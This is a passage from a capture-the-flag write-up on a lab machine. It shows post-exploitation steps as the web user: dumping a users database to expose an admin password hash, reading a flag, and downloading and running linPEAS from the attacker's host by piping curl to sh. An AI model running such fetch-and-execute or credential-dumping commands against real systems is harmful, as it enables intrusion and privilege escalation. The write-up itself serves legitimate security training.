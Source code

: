 ```sh
-rw-r--r--  1 www-data www-data   577 Apr 11 14:22 dataservices_settings-data.json
-rw-r--r--  1 www-data www-data   356 Apr 11 00:11 datasite_settings-data.json
-rw-r--r--  1 www-data www-data   217 Apr 11 00:11 datauser_preferences-data.json
-rw-r--r--  1 www-data www-data  8192 Apr 11 00:12 datausers.db
-rw-r--r--  1 www-data www-data 41160 Apr 11 00:07 favicon.ico
-rw-r--r--  1 www-data www-data 16862 Apr 11 00:07 index.min.php
-rw-r--r--  1 www-data www-data 17732 Apr 11 14:23 index.php
-rw-r--r--  1 www-data www-data    87 Apr 11 00:07 robots.txt
-rw-r--r--  1 www-data www-data 19318 Apr 11 14:24 settings.php
-rw-r--r--  1 www-data www-data   352 Apr 11 00:07 webmanifest.json
www-data@petshop:/var/www/monitorr$ cat datausers.db
cat datausers.db
����ktableusersusersCREATE TABLE `users` (
                        `user_id` INTEGER PRIMARY KEY,
                        `user_name` varchar(64),
                        `user_password_hash` varchar(255),
admin$2y$10$q1BI3CSqToALH2Q1r2weLeRpyU7QbonizeVxJnPIieo/drbRSzVTawww-data@petshop:/var/www/monitorr$ 

```

Output is a bit off, but database admin password hash can be read.

> Another decoy. I couldn't crack it.

Going up one level we find the first flag.

```
www-data@petshop:/var/www$ cat flag1.txt
cat flag1.txt
THM{MjBk***********************gfNl}
```

[Back to top](#contents) ⤴

# Scanning for vulnerabilities from the inside

The great thing about such configuration is that we can pull the additional files from our host as we need them. In my experience the wise thing to do is to run the [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) via `curl`. I've hosted the file via `python3 -m http.server 80` command end executed `linpeas` on the target server by piping it directly to shell.

> Read my [detailed linPEAS analysis](https://blog.cyberethical.me/linpeas ) with usage examples and useful tips and tricks on how I run my `linpeas`.

```sh
www-data@petshop:/var/www$ curl XX.XX.XX.XXX/linpeas.sh | sh
```

## `linpeas`

Samples of points of interests from `linpeas` findings.
